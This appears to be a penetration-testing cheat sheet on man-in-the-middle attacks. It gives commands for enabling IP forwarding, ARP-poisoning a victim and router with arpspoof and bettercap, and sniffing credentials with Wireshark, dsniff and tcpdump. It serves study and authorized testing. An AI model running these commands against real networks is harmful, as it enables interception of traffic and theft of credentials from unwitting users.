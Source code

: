 # m - MITM

### LLMNR and NetBIOS NS&#x20;

[https://www.crowe.com/cybersecurity-watch/netbios-llmnr-giving-away-credentials#:\~:text=LLMNR%20stands%20for%20link%2Dlocal,host%20names%20on%20local%20networks.](https://www.crowe.com/cybersecurity-watch/netbios-llmnr-giving-away-credentials)

### Arp Poisoning

#### We 1st make our Kali machine able to forward traffic:

`echo 1 > /proc/sys/net/ipv4/ip_forward` - kali now acts as a router and forwards packet.

If the above dosen's work you can use:

`sysctl net.ipv4.ip_forward` - checks kali forwarding status if enabled or not, if net.ipv4.ip\_forward = 0 this means forwarding status is OFF.

`sudo sysctl -w net.ipv4.ip_forward=0` - **off/disable IP Forwarding.**

`sudo sysctl -w net.ipv4.ip_forward=1` - **on/enable IP Forwarding.**



Secondly, we convince the Victim that we are the Original Router, so send your request to me.

`arpspoof -i eth0 -t $target_ip $mainRouter_ip` - we specify the victim we want to confuse and the router ip we want to spoof.

Thirdly, we do same for the Original Router too, deceive it by tellin it we are the victim.

`arpspoof -i eth0 -t $mainRouter_ip $target_ip` - so the router now thinks we are the real client.

Lastly, we can use Wireshark to sniff the traffic. we can  apply the filter: !arp && http.authbasic.

### \[dsniff] utility

dsniff is a suite of tools that includes Active, Passive sniffers and MITM tools, and can be used for password sniffers for protocols like telnet, http, smtf, pop etc.

While the MITM attack is running, we just need to run dsniff on the interface and wait for the results.

`dsniff -i eth0` - we start to see credentials.

### \[tcpdump] utity

`tcpdump -i eth0` - sniff on the eth0 interface (promiscious mode).

`tcpdump -i eth0 -v` - more info.

`tcpdump -i eth0 -n` - disable DNS resolution.

`tcpdump -i eth0 -q` - quiet mode.&#x20;

`tcpdump -i eth0 host google.com` - filter for particular website/host.

`tcpdump -i eth0 src 192.168.0.100 and dst 192.168.0.178` - filter traffic for source and dst host.

`tcpdump -i eth0 -F filename.txt`  - import filter from a file.

`tcpdump -i eth0 -c 100` - specify count/number of packets to capture.

`tcpdump -i eth0 -w output.txt` - save capture to file. to read it,

`tcpdump -i eth0 -r output.txt` - to read the captured file.

`tcpdump -i eth0 | grep 192.168.1.1` - grep for that specific ip addr.

### \[ettercap]

`ettercap -G &` - to run in GUI mode.

### \[bettercap]

`sudo bettercap -iface wlan0` - launches the instance.

{% code overflow="wrap" lineNumbers="true" %}
```bash
>> net.probe on # scan all devices currently active on the network.
>> net.show # display all devices in network.
>> set arp.spoof.targets $victim_ip_to_spoof # enable spoofing on a host.
>> arp.spoof on # turn arpspoof on.
>> net.sniff on # then turn on net.sniff to start sniffing packets.
```
{% endcode %}
